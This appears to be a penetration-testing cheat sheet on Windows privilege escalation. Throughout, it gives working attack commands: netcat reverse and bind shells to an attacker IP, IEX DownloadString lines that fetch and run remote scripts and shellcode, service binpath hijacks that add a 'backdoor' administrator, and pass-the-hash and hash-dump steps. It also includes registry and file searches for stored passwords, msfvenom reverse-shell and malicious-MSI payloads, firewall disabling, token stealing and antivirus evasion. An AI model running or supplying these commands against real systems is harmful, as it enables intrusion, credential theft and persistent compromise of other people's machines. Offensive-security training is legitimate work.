

# Windows

## MindMap


## Videos

[https://www.youtube.com/playlist?list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP](https://www.youtube.com/playlist?list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP) 

## Useful commands

```text
http://www.handgrep.se/repository/cheatsheets/postexploitation/WindowsPost-Exploitation.pdf
```

## Credential reuse

Sometimes a user that you have the credentials for is also the administrator on the system, but uses the same password for both accounts. So never forget to try passwords when you have the chance. Just don't overdo it so you trigger some lockout mechanism and get detected.

Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group. As you can see from the output of the three commands below the username is _hacker_, he is part of the group _administrators._ In this case, a privilege escalation is not necessary because we are already in the administrators group! 

* `whoami`
* `net localgroup administrator`
* `net user "%username%"`



Getting a shell in limited interpreters:

```text
system("start cmd.exe /k $cmd")
```

Bind cmd to a port:

```text
nc.exe -Lp 31337 -vv -e cmd.exe
```

Reverse shell:

```text
nc.exe attacker_ip attacker_port -e cmd.exe
```

## To capture NTLM hash 

Spin up smbserver.py and connect via smb to your server on kali. ie smbclient -L //$kali$ip 

```text
/usr/share/doc/python-impacket/examples/smbserver.py -smb2support test . 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (victimip:port)
[*] AUTHENTICATE_MESSAGE (MicrosoftAccount\emailhere@gmail.com,DESKTOP-12345A)
[*] User emailhere@gmail.com\DESKTOP-123456A authenticated successfully
[*]emailhere@gmail.com::MicrosoftAccount:aad3c435b514a4eeaad3b935b51304fec46b9e58:aad3c435b514a4eeaad3b935b51304fec46b9e58:aad3c435b514a4eeaad3b935b51304fec46b9e58

```

## System info

Finding installed software, running processes, bind ports, and OS version might be critical to identify the right EoP vector.

Find installed patches, architecture, OS version

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Get exact OS version

```text
type C:/Windows/system32/eula.txt
```


Hotfix\(s\): N/A  
If there are no Hot fixes then its likely the system is vulnerable to kernel exploit


### Hostname

Environment

```text
set
```

List open connections

```text
netstat -aton
```

Network information

```text
ipconfig /all & route print & arp -a
```

### Information about a Users & Administrator

Find current user.

```text
echo %username%
```

```text
getuid
```

### List all users

```text
net users
```

#### Firewall information

```text
netsh firewall show state
netsh firewall show config
```

#### List scheduled tasks

```text
schtasks /query /fo LIST /v
```

#### List windows services

```text
net start
```

```text
wmic service list brief
```

Links running processes to started services

```text
tasklist /SVC
```

## Incorrect permissions in services

A service running as Administrator/SYSTEM with incorrect file permissions might allow PE. You can replace the binary, restart the service and get system.

We are interested in services where permissions are: **BUILTIN\Users** with **\(F\)** or **\(C\)** or **\(M\)** for our group. More info about permissions:

```text
https://msdn.microsoft.com/en-us/library/bb727008.aspx
```

Common exploitation payloads involve: Replacing the affecting binary with a reverse shell or a command that creates a new user and adds it to the Administrator group. Replace the affected service with your payload and and restart the service running:

```text
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

```text
sc start/stop serviceName
```

The following commands will print the affected services:

```text
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

If wmic is not available we can use sc.exe:

```text
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

You can also manually check each service using cacls:

```text
cacls "C:\path\to\file.exe"
```

If you don't have access to wmic, you can do:

```text
sc qc upnphost
```

Windows XP SP1 is known to be vulnerable to PE in **upnphost**. You get Administrator with:

```text
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```

If it fails because of a missing dependency, run the following:

```text
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```

Or remove the dependency:

```text
sc config upnphost depend= ""
```

Using meterpreter:

```text
exploit/windows/local/service_permissions
```

## acesschk.exe

If wmic and sc is not available, you can use accesschk. For Windows XP, version 5.2 of accesschk is needed:

```text
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
```

```text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```

Then query the service using Windows sc:

```text
sc qc <vulnerable service name>
```

Then change the binpath to execute your own commands \(restart of the service will most likely be needed\):

```text
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln$ -service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
```

Note - Might need to use the depend attribute explicitly:sc stop &lt;vuln-service&gt;

```text
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>
```

## Find unquoted paths

If we find a service running as SYSTEM/Administrator with an unquoted path and spaces in the path we can hijack the path and use it to elevate privileges. This occurs because windows will try, for every white space, to find the binary in every intermediate folder.

For example, the following path would be vulnerable:


```text
C:\Program Files\something\winamp.exe
```


Not vulnerable


```text
"C:\Program Files\something\winamp.exe"
```


We could place our payload with any of the following paths:

```text
C:\winamp.exe (this is a reverse shell with the same names as legal program)
```

#### The following command will display affected services:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Check Permissions

We might even be able to override the service executable, always check out the permissions of the service binary:

```text
icacls "C:\Program Files (x86)\Program Folder"
```

You can automate with meterpreter:

```text
exploit/windows/local/trusted_service_path
```

## PowerUp

PowerUp is an extremely useful script for quickly checking for obvious paths to privilege escalation on Windows. It is not an exploit itself, but it can reveal vulnerabilities such as administrator password stored in registry and similar. We shamelessly use [harmj0y's guide](https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/) as reference point for the following guide. Some basic knowledge about how to import Powershell modules and used them is required.

Import the PowerUp module with the following:

`PS C:\>` `Import-Module PowerUp.ps1`

If you want to invoke everything without touching disk, use something like this:

`C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”`

## Finding stuff fast

#### ClearText passwords \(quick hits\)

`findstr /s /C:"stringtosearchfor.txt" "C:*"`

We might sometimes find passwords in arbitrary files, you can find them running:

```text
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
```

#### Find all those strings in config files.

```text
dir /s *pass* == *cred* == *vnc* == *.config*
```

#### Find all passwords in all files.

```text
findstr /spin "password" *.*
```

```text
findstr /spin "password" *.*
```

These are common files to find them in. They might be base64-encoded. So look out for that.

```text
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
```

```text
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```

#### Stuff in the registry:

```text
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

#### Using meterpreter:

```text
post/windows/gather/credentials/gpp
post/windows/gather/enum_unattend
```

## Pass the hash

Pass The Hash allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a cleartext password.

Windows hash format:

```text
user:group:id:ntlmpassword::
```

You can do a hash dump in the affected system running:

```text
wce32.exe -w
wce64.exe -w
fgdump.exe
```

Download and run fgdump.exe on the target machine.

```text
 cd /usr/share/windows-binaries/fgdump; python -m SimpleHTTPServer 80
```

```text
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

or:

```text
export SMBHASH=xxx
pth-winexe -U user%  //$ip cmd
```

You can also do run as, with the hash:

### Technique 1:

```text
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

### Technique 2:

```text
secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

```text
powershell -ExecutionPolicy Bypass -File c:\users\public\r.ps1
```

### Technique 3:

```text
psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc <attacker_ip> 4444 -e cmd.exe"
```

## Services only available from loopback

You can find services bind to the loopback interface that are not reachable through the network running. Look for **LISTENING/LISTEN**:

```text
netstat -ano
```

Port forward using plinplink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

Port forward using meterpreter

```text
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

#### If powershell is blocked, you can download:

```text
https://github.com/Ben0xA/nps
```

Once you know the updates installed, you can find known exploits using windows-exploit-suggester.

```text
./windows-exploit-suggester.py -d 2017-02-09-mssb.xls -p ms16-075
[*] initiating winsploit version 3.2…
[*] database file detected as xls or xlsx based on extension
[*] searching all kb’s for bulletin id MS16-075
[+] relevant kbs [‘3164038’, ‘3163018’, ‘3163017’, ‘3161561’]
[*] done
```


In March 2017 Microsoft stopped maintaining the security bulletin search. This means the Windows Exploit Suggester database will not include any vulnerabilities or exploits found after that date. Still, this tool can still be very useful on older systems.


#### Compile windows exploit in linux:

```text
i686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe
```

#### Compiling python scripts to executables:

```text
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py
```

## AlwaysInstallElevated

**AlwaysInstallElevated** is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files \(MSI\) with elevated \(SYSTEM\) permissions.

Check if these 2 registry values are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If they are, create your own malicious msi:

```text
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
```

Then use msiexec on victim to execute your msi:

```text
msiexec /quiet /qn /i C:\evil.msi
```

Metasploit module:

```text
use exploit/windows/local/always_install_elevated
```

### Windows-privesc-checker2

```text
https://github.com/pentestmonkey/windows-privesc-check/archive/master.zip
```

## Vulnerable drivers

Third party drivers might contain vulnerabilities, find them running:

```text
DRIVERQUERY
```

## Kernel vulnerabilities

#### Run exploit suggester against systeminfo:


Don't rely on this - there are a  lot of false positive! This is generally a last resort.


```text
https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py
```

```
python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt
```

#### Find installed paths:

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Comprehensive tables of vulnerabilities below:

```text
[+] Windows vulnerabilities:

Windows XP:
CVE-2012-4349        Unquoted windows search path - Windows provides the capability of including spaces in path names - can be root
CVE-2011-1345        Internet Explorer does not properly handle objects in memory - allows remote execution of code via object
CVE-2010-3138        EXPLOIT-DB 14765 - Untrusted search path vulnerability - allows local users to gain privileges via a Trojan horse
CVE-2011-5046        EXPLOIT-DB 18275 - GDI in windows does not properly validate user-mode input - allows remote code execution
CVE-2002-1214        ms02_063_pptp_dos - exploits a kernel based overflow when sending abnormal PPTP Control Data packets - code execution, DoS
CVE-2003-0352        ms03_026_dcom - exploits a stack buffer overflow in the RPCSS service
CVE-2003-0533        MS04-011 - ms04_011_lsass - exploits a stack buffer overflow in the LSASS service
CVE-2003-0719        ms04_011_pct - exploits a buffer overflow in the Microsoft Windows SSL PCT protocol stack - Private communication target overflow
CVE-2010-3970        ms11_006_createsizeddibsection - exploits a stack-based buffer overflow in thumbnails within .MIC files - code execution
CVE-2010-3147        EXPLOIT-DB 14745 - Untrusted search path vulnerability in wab.exe - allows local users to gain privileges via a Trojan horse 
CVE-2003-0812        ms03_049_netapi - exploits a stack buffer overflow in the NetApi32 
CVE-2003-0818        ms04_007_killbill -  vulnerability in the bit string decoding code in the Microsoft ASN.1 library
CVE-2003-0822        ms03_051_fp30reg_chunked - exploit for the chunked encoding buffer overflow described in MS03-051 
CVE-2004-0206        ms04_031_netdde - exploits a stack buffer overflow in the NetDDE service

Windows 7:
CVE-2014-4114        ms14_060_sandworm - exploits a vulnerability found in Windows Object Linking and Embedding - arbitrary code execution
CVE-2015-0016        ms15_004_tswbproxy -  abuses a process creation policy in Internet Explorer's sandbox - code execution
CVE-2014-4113        ms14_058_track_popup_menu - exploits a NULL Pointer Dereference in win32k.sys - arbitrary code execution
CVE-2010-3227        EXPLOIT-DB - Stack-based buffer overflow in the UpdateFrameTitleForDocument method - arbitrary code execution
CVE-2018-8494        remote code execution vulnerability exists when the Microsoft XML Core Services MSXML parser processes user input
CVE-2010-2744        EXPLOIT-DB 15894 - kernel-mode drivers in windows do not properly manage a window class - allows privileges escalation
CVE-2010-0017        ms10_006_negotiate_response_loop - exploits a denial of service flaw in the Microsoft Windows SMB client - DoS
CVE-2010-0232        ms10_015_kitrap0d - create a new session with SYSTEM privileges via the KiTrap0D exploit
CVE-2010-2550        ms10_054_queryfs_pool_overflow - exploits a denial of service flaw in the Microsoft Windows SMB service - DoS
CVE-2010-2568        ms10_046_shortcut_icon_dllloader - exploits a vulnerability in the handling of Windows Shortcut files (.LNK) - run a payload

Windows 8:
CVE-2013-0008        ms13_005_hwnd_broadcast - attacker can broadcast commands from lower Integrity Level process to a higher one - privilege escalation
CVE-2013-1300        ms13_053_schlamperei - kernel pool overflow in Win32k - local privilege escalation
CVE-2013-3660        ppr_flatten_rec - exploits EPATHOBJ::pprFlattenRec due to the usage of uninitialized data - allows memory corruption
CVE-2013-3918        ms13_090_cardspacesigninhelper - exploits CardSpaceClaimCollection class from the icardie.dll ActiveX control - code execution
CVE-2013-7331        ms14_052_xmldom - uses Microsoft XMLDOM object to enumerate a remote machine's filenames
CVE-2014-6324        ms14_068_kerberos_checksum - exploits the Microsoft Kerberos implementation - privilege escalation
CVE-2014-6332        ms14_064_ole_code_execution -  exploits the Windows OLE Automation array vulnerability 
CVE-2014-6352        ms14_064_packager_python - exploits Windows Object Linking and Embedding (OLE) - arbitrary code execution
CVE-2015-0002        ntapphelpcachecontrol - NtApphelpCacheControl Improper Authorization Check - privilege escalation
   
Windows 10:  
CVE-2015-1769        MS15-085 - Vulnerability in Mount Manager - Could Allow Elevation of Privilege
CVE-2015-2426        ms15_078_atmfd_bof MS15-078 - exploits a pool based buffer overflow in the atmfd.dll driver 
CVE-2015-2479        MS15-092 - Vulnerabilities in .NET Framework - Allows Elevation of Privilege
CVE-2015-2513        MS15-098 - Vulnerabilities in Windows Journal - Could Allow Remote Code Execution
CVE-2015-2423        MS15-088 - Unsafe Command Line Parameter Passing - Could Allow Information Disclosure
CVE-2015-2431        MS15-080 - Vulnerabilities in Microsoft Graphics Component - Could Allow Remote Code Execution
CVE-2015-2441        MS15-091 - Vulnerabilities exist when Microsoft Edge improperly accesses objects in memory - allows remote code execution
CVE-2015-0057        exploits GUI component of Windows namely the scrollbar element - allows complete control of a Windows machine

Windows Server 2003:
CVE-2008-4114        ms09_001_write - exploits a denial of service vulnerability in the SRV.SYS driver - DoS
CVE-2008-4250        ms08_067_netapi  - exploits a parsing flaw in the path canonicalization code of NetAPI32.dll - bypassing NX 
CVE-2017-8487        allows an attacker to execute code when a victim opens a specially crafted file - remote code execution
```

```text
https://github.com/SecWiki/windows-kernel-exploits
```

### Windows version map

```text
Operating System     Version Number

Windows 1.0                    1.04
Windows 2.0                    2.11
Windows 3.0                    3
Windows NT 3.1                 3.10.528
Windows for Workgroups 3.11    3.11
Windows NT Workstation 3.5     3.5.807
Windows NT Workstation 3.51    3.51.1057
Windows 95                     4.0.950
Windows NT Workstation 4.0     4.0.1381
Windows 98                     4.1.1998
Windows 98 Second Edition      4.1.2222
Windows Me                     4.90.3000
Windows 2000 Professional      5.0.2195
Windows XP                     5.1.2600
Windows Vista                  6.0.6000
Windows 7                      6.1.7600
Windows 8.1                    6.3.9600
Windows 10                     10.0.10240
```

## Automated tools

### Powersploit

PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment

```text
https://github.com/PowerShellMafia/PowerSploit
Get-GPPPassword
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

### **Reverse Shell from Windows**

If there’s a way, we can execute code from windows, we may try

* Uploading ncat and executing it
* Powershell Empire/ Metasploit Web-Delivery Method
* Invoke-Shellcode \(from powersploit\) see below

```text
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
```

### Metasploit

```text
post/windows/gather/credentials/gpp
post/windows/gather/enum_unattend
```

```text
getsystem
getprivs
use priv
hashdump
```

### Metasploit incognito

[https://www.offensive-security.com/metasploit-unleashed/fun-incognito/](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

```text
use incognito
list_tokens -u
list_tokens -g
impersonate_token DOMAIN_NAME\\USERNAME
steal_token PID
drop_token
rev2self
```

### Useful commands

#### Add a new user

```text
net user test 1234 /add
net localgroup administrators test /add
```

#### Print files contents:

```text
type file
```

#### Remove file

```text
del /f file
```

#### Change password for user:

```text
net user <user> <password>
```

#### List users:

```text
net user
```

#### Info about a user:

```text
net user <username>
```

#### Permissions on a folder recursively:

```text
cacls *.* /t /e /g domainname\administrator:f
```

## Enable RDP access

This is useful to do because generally it is easier to manipulate windows using the GUI. The downside is that you're most definitely will have an impact on the machine, as you may have to create a user or change a user's password to get in.

```text
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

#### Disable firewall

```text
netsh firewall set opmode disable
```

#### Run exploit

```text
C:\tmp>powershell -ExecutionPolicy ByPass -command "& { . C:\tmp\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

### JAWS

```text
https://411hall.github.io/JAWS-Enumeration/
```

## Metasploit

Module to elevate privileges to SYSTEM by creating a service or hijacking existing ones with incorrect permissions

```text
exploit/windows/local/service_permissions
```

## Other scripts

```text
https://github.com/GDSSecurity/Windows-Exploit-Suggester
https://github.com/Jean13/Penetration_Testing/blob/master/Privilege_Escalation/windows-privesc-check2.exe
```

### Generate php reverse shell:

```text
msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php
msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php
```

### Others

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### Generate shellcode to use within a perl exploit:

```text
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f perl -b \x00\x0A\x0D\xFF
```

### Raw paylaod:

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw -o test.bin
```

### Js payload:

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f js_le
```

### Handling reverse shell using meterpreter:

```text
use exploit/multi/handler
set lport 1234
set lhost <attacker_ip>
set payload windows/shell/reverse_tcp
run
```

### Other payloads:

```text
set PAYLOAD windows/meterpreter/reverse_tcp
set PAYLOAD generic/shell_reverse_tcp
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

### Privilege escalation

```text
getsystem
hashdump
```

## Useful exploits

### Automatically downloads and compiles exploit

```text
wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
```

```text
USAGE: xploit_installer.py <exploit id>
```

### Windows Remote Exploits:

```text
0: windows_exploit_suggester
1: ms03-026
2: ms03-039 (1)
3: ms03-039 (2)
4: *ms03-049
5: ms04-007
6: ms04-011 - ssl bof
7: ms04-011 - lsasarv.dll
8: ms04-031
9: ms05-017
10: ms05-039
11: *ms06-040 (1)
12: ms06-040 (2)
13: ms06-070
14: *ms08-067 (1)
15: ms08-067 (2)
16: ms08-067 (3)
17: *ms09-050
```

### Windows Local Exploits:

```text
18: windows-privesc-check
19: ms04-011
20: ms04-019 (1)
21: ms04-019 (2)
22: ms04-019 (3)
23: ms04-020
24: *keybd_event
25: *ms05-018
26: *ms05-055
27: ms06-030
28: ms06-049
29: print spool service
30: *ms08-025
31: netdde
32: ms10-015
33: ms10-059
34: ms10-092
35: ms11-080
36: ms14-040
37: *ms14-058 (1)
38: ms14-058 (2)
39: *ms14-070 (1)
40: ms14-070 (2)
41: *ms15-010 (1)
42: *ms15-010 (2)
43: ms15-051
44: *ms16-014
45: ms16-016
46: ms16-032
```

Check out:

```text
http://www.bhafsec.com/wiki/index.php/Windows_Privilege_Escalation
```

#### Windows Server 2003 and IIS 6.0 privilege escalation using impersonation:

```text
https://www.exploit-db.com/exploits/6705/
```

```text
https://github.com/Re4son/Churrasco
```

```text
c:\Inetpub>churrasco
 churrasco
 /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

 c:\Inetpub>churrasco -d "net user /add <username> <password>"
 c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
```

### Windows MS11-080

http://www.exploit-db.com/exploits/18176/

```text
python pyinstaller.py --onefile ms11-080.py
```

```text
mx11-080.exe -O XP
```

From admin to system

```text
psexec.exe -i -s %SystemRoot%\system32\cmd.exe
```

```text
https://github.com/Cn33liz/EasySystem 
```

### AV bypass

Generating a mutated binary to bypass antiviruses

```text
wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe
```

## Access Check

You will probably need to accept the eula first:

```text
accesschk.exe /accepteula
```

## Windows hashes

NTLM and LM passwords are located in the SAM file in **C:\\Windows\SYSTEM32\CONFIG**

LAN Manager \(LM\): Windows XP and prior use LAN manager protocol. Uses DES but the key space is small \(only uppercase, not salted, 14 chars or padded to 14\).

NTLM/NTLM2: It does not split the password, also stored in uppercase

Kerberos: Default protocol for active directory envs.PoCs

Add user to administrator group

```text
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

```text
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

#### Run an arbitrary command:

```text
echo -e '#include <stdio.h>\n#include <smain () {\nsystem("C:\\Users\\Administrator\\Desktop\\nc -lvp 4313 -e cmd.exe");\nreturn(0);\n}'> poc.c
```

## Print proof

```text
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```

